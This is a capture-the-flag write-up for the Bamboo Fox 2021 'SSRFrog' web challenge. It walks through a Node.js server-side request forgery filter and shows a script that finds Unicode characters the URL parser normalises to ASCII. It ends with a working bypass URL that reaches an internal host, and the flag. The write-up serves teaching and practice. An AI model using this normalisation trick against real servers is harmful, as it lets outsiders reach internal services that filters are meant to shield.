


# SSRFrog
This was a web challenge in the Bamboo Fox 2021 CTF.



Clicking the link gives us this page:


First thing we did is do View Source on the page and we saw this in a comment:

```
FLAG is on this server: http://the.c0o0o0l-fl444g.server.internal:80
```


We are also given a link to the source code:

```
const express = require("express");
const http = require("http");

const app = express();

app.get("/source", (req, res) => {
    return res.sendFile(__filename);
})
app.get('/', (req, res) => {
    const { url } = req.query;
    if (!url || typeof url !== 'string') return res.sendFile(__dirname + "/index.html");

    // no duplicate characters in `url`
    if (url.length !== new Set(url).size) return res.sendFile(__dirname + "/frog.png");

    try {
        http.get(url, resp => {
            resp.setEncoding("utf-8");
            resp.statusCode === 200 ? resp.on('data', data => res.send(data)) : res.send(":(");
        }).on('error', () => res.send("WTF?"));
    } catch (error) {
        res.send("WTF?");
    }
});

app.listen(3000, '0.0.0.0');
```

We notice it is a NodeJS application.

It is looking for a "url" query string parameter.

It has to be a string and can have no duplicate characters.

If so, it will call http.get() against it and send us the results.

## Understanding how Set() Works
The "new Set(url)" expression will take the url string and break it up into a set of the unique characters present in the string.

We can fire up an interactive **node** command line and play with this:

```
ssrf$ node
Welcome to Node.js v15.4.0.
Type ".help" for more information.
> new Set('http://example.com')
Set(13) {
  'h',
  't',
  'p',
  ':',
  '/',
  'e',
  'x',
  'a',
  'm',
  'l',
  '.',
  'c',
  'o'
}
```

Notice how our url had two t's in it but the set only has one.


## Back to the Challenge (Baby Steps)
If it weren't for the duplicate characters, this would work:

http://the.c0o0o0l-fl444g.server.internal

In our interactive **node** session, we then loaded the 'http' library so we could play with it:

```
http = require('http')
```

We tried making a **get()** call against a bogus URL to see what it would do:

```
> http.get('http://:::')
Uncaught TypeError [ERR_INVALID_URL]: Invalid URL: http://:::
    at new NodeError (node:internal/errors:278:15)
    at onParseError (node:internal/url:259:9)
    at new URL (node:internal/url:335:5)
    at new ClientRequest (node:_http_client:99:28)
    at request (node:http:50:10)
    at Object.get (node:http:54:15)
    at REPL6:1:6
    at Script.runInThisContext (node:vm:133:18)
    at REPLServer.defaultEval (node:repl:507:29)
    at bound (node:domain:416:15) {
  input: 'http://:::',
  code: 'ERR_INVALID_URL'
}
>
```

We noticed from the stack trace that it is internally using the URL type.

We can now play with URL directly to study its behavior.  Let's try it with a legal URL:

```
> new URL('http://example.com')
URL {
  href: 'http://example.com/',
  origin: 'http://example.com',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'example.com',
  hostname: 'example.com',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
>
```

We can see that it will parse the given URL into interesting properties like **hostname**.

Since we want to avoid duplicate characters, we can easily deal with "http" by changing it to "HTtP" since T and t will be different characters in the Set():

```
> new URL('HTtP://example.com')
URL {
  href: 'http://example.com/',
  origin: 'http://example.com',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'example.com',
  hostname: 'example.com',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
>
```

Notice how it internally lowercased the HTtP into http.

Next we have deal with the //.

We had no reason to expect this to work but it turns you can leave out the // entirely and the URL parser is just fine with it:

```
> new URL('HTtP:example.com')
URL {
  href: 'http://example.com/',
  origin: 'http://example.com',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'example.com',
  hostname: 'example.com',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
>
```

Recall our target url is: http://the.c0o0o0l-fl444g.server.internal:80

We know port 80 is the default for the http protocol so we don't need that.

http://the.c0o0o0l-fl444g.server.internal

So far, we can do this and our URL parser is happy with it:

HTtP:the.c0o0o0l-fl444g.server.internal

```
> new URL('HTtP:the.c0o0o0l-fl444g.server.internal')
URL {
  href: 'http://the.c0o0o0l-fl444g.server.internal/',
  origin: 'http://the.c0o0o0l-fl444g.server.internal',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'the.c0o0o0l-fl444g.server.internal',
  hostname: 'the.c0o0o0l-fl444g.server.internal',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
>
```


We then run into the 't' right after the colon and we've already used both lowercase t and uppercase T.

We were stuck at this point for a long while.


## Unicode Normalization to the Rescue

Clearly the URL's internal parser is doing some normalization.  We feed it both upper 'T' and lowercase 't' and they both come out parsed as lowercase 't'.

That made us wonder if there might be other Unicode characters that, for whatever reason, also get normalized into lowercase 't'.

We wrote this **ssrfrog.js** javascript code to hunt for them:

```
function findVariants(targetChar) {
    let targetHost = 'fake' + targetChar + '.com';
    for (i = 32; i <= 65535; i++) {
        let candidateChar = String.fromCharCode(i);
        let input = 'http://fake' + candidateChar + '.com';
        try {
            let url = new URL(input);
            if (url.hostname === targetHost) {
                console.log(targetChar, ':', i, candidateChar);
            }
        }
        catch(e) {
        }
    }
}

let domain = 'the.c0o0o0l-fl444g.server.internal';
let domainSet = new Set(domain);
for (c of domainSet) {
    findVariants(c)
}
```

Once you've created this ssrfrog.js file, you can run it like this:

```
node ssrfrog.js
```

This takes our target domain name, turns it into a Set and then, for each character in that Set, it asks the findVariants() function to look for Unicode characters that normalize into the given targetChar.

It does this by simply trying all characters from 32 to 65535.

It slips the candidateChar into a fake url string and tries to create a "new URL()" out of it.  If it happens to throw an exception, we just ignore it.

Otherwise, we look at the 'hostname' property that it parsed out.  If that happens to be the same as the fake url with the targetChar slipped in, then we know that, internally, it normalized candidateChar into targetChar.

This outputs the following:

t : 84 T

t : 116 t

t : 7488 ᵀ

t : 7511 ᵗ

t : 8348 ₜ

t : 9417 Ⓣ

t : 9443 ⓣ

t : 65332 Ｔ

t : 65364 ｔ

h : 72 H

h : 104 h

h : 688 ʰ

h : 7476 ᴴ

h : 8341 ₕ

h : 8459 ℋ

h : 8460 ℌ

h : 8461 ℍ

h : 8462 ℎ

h : 9405 Ⓗ

h : 9431 ⓗ

h : 65320 Ｈ

h : 65352 ｈ

e : 69 E

e : 101 e

e : 7473 ᴱ

e : 7497 ᵉ

e : 8337 ₑ

e : 8495 ℯ

e : 8496 ℰ

e : 8519 ⅇ

e : 9402 Ⓔ

e : 9428 ⓔ

e : 65317 Ｅ

e : 65349 ｅ

. : 46 .

. : 12290 。

. : 65294 ．

. : 65377 ｡

c : 67 C

c : 99 c

c : 7580 ᶜ

c : 8450 ℂ

c : 8493 ℭ

c : 8557 Ⅽ

c : 8573 ⅽ

c : 9400 Ⓒ

c : 9426 ⓒ

c : 65315 Ｃ

c : 65347 ｃ

0 : 48 0

0 : 8304 ⁰

0 : 8320 ₀

0 : 9450 ⓪

0 : 65296 ０

o : 79 O

o : 111 o

o : 186 º

o : 7484 ᴼ

o : 7506 ᵒ

o : 8338 ₒ

o : 8500 ℴ

o : 9412 Ⓞ

o : 9438 ⓞ

o : 65327 Ｏ

o : 65359 ｏ

l : 76 L

l : 108 l

l : 737 ˡ

l : 7480 ᴸ

l : 8343 ₗ

l : 8466 ℒ

l : 8467 ℓ

l : 8556 Ⅼ

l : 8572 ⅼ

l : 9409 Ⓛ

l : 9435 ⓛ

l : 65324 Ｌ

l : 65356 ｌ

- : 45 -

- : 65123 ﹣

- : 65293 －

f : 70 F

f : 102 f

f : 7584 ᶠ

f : 8497 ℱ

f : 9403 Ⓕ

f : 9429 ⓕ

f : 65318 Ｆ

f : 65350 ｆ

4 : 52 4

4 : 8308 ⁴

4 : 8324 ₄

4 : 9315 ④

4 : 65300 ４

g : 71 G

g : 103 g

g : 7475 ᴳ

g : 7501 ᵍ

g : 8458 ℊ

g : 9404 Ⓖ

g : 9430 ⓖ

g : 65319 Ｇ

g : 65351 ｇ

s : 83 S

s : 115 s

s : 383 ſ

s : 738 ˢ

s : 8347 ₛ

s : 9416 Ⓢ

s : 9442 ⓢ

s : 65331 Ｓ

s : 65363 ｓ

r : 82 R

r : 114 r

r : 691 ʳ

r : 7487 ᴿ

r : 7523 ᵣ

r : 8475 ℛ

r : 8476 ℜ

r : 8477 ℝ

r : 9415 Ⓡ

r : 9441 ⓡ

r : 65330 Ｒ

r : 65362 ｒ

v : 86 V

v : 118 v

v : 7515 ᵛ

v : 7525 ᵥ

v : 8548 Ⅴ

v : 8564 ⅴ

v : 9419 Ⓥ

v : 9445 ⓥ

v : 11389 ⱽ

v : 65334 Ｖ

v : 65366 ｖ

i : 73 I

i : 105 i

i : 7477 ᴵ

i : 7522 ᵢ

i : 8305 ⁱ

i : 8464 ℐ

i : 8465 ℑ

i : 8505 ℹ

i : 8520 ⅈ

i : 8544 Ⅰ

i : 8560 ⅰ

i : 9406 Ⓘ

i : 9432 ⓘ

i : 65321 Ｉ

i : 65353 ｉ

n : 78 N

n : 110 n

n : 7482 ᴺ

n : 8319 ⁿ

n : 8345 ₙ

n : 8469 ℕ

n : 9411 Ⓝ

n : 9437 ⓝ

n : 65326 Ｎ

n : 65358 ｎ

a : 65 A

a : 97 a

a : 170 ª

a : 7468 ᴬ

a : 7491 ᵃ

a : 8336 ₐ

a : 9398 Ⓐ

a : 9424 ⓐ

a : 65313 Ａ

a : 65345 ａ


As you can see there are plenty of variants for every character!

## Time to get the Flag

Armed with these variants, we can now construct a url that will have no duplicate characters and yet the URL parser will normalize it into the domain name we actually want to hit.

Here is one that worked for us:

HTtP:ᵗhe.c0o⁰O₀l-fL4⁴₄g．sErvᵉR｡inₜₑʳNaˡ

This returns the flag:

**flag{C0o0o0oL_baby_ssrf_trick}**

